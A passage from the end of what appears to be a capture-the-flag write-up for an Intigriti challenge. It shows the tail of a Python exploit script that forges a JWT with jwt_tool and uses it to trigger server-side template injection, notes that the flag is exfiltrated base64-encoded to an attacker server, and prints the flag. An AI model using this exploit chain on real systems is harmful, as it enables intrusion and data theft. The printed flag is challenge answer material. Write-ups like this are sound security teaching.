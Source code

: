 ```python
    if not modified_jwt:
        print("[!] Failed to modify JWT using jwt_tool.")
        return

    # Step 6: Test SSTI injection by sending the modified JWT
    test_ssti(modified_jwt)

if __name__ == "__main__":
    main()
```
{% endcode %}

The attacker server will receive a request containing the base64-encoded flag.

Flag: `INTIGRITI{h3y_y0u_c4n7_ch41n_7h053_vuln5_l1k3_7h47}`
